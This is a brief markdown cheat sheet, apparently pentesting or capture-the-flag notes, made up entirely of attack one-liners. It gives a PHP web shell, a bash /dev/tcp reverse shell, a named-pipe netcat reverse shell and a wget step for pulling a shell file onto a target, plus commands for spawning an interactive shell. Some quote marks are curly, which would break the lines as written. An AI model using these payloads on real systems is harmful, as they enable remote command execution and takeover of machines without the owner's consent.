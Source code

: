 # Temp Page.

**PHP web shell**
`<?php system($_GET[‘cmd’]);?>`

**Bash Reverse shell**
 `bash -i >& /dev/tcp/<localIP>/<port> 0>&1`

**Named pipe reverse shell**
`mkfifo /tmp/f; nc <ip> <port>< /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

**Getting shell through file**

Local system:
`python3 -m http.server <port>`

Attacking system:
`wget http://<ip:port>/shell.php`

**Spawning a shell after callback** 
`python -c 'import pty;pty.spawn("/bin/bash")’`

` echo “os.system('/bin/bash')”`

` perl -e 'exec "/bin/sh";’`


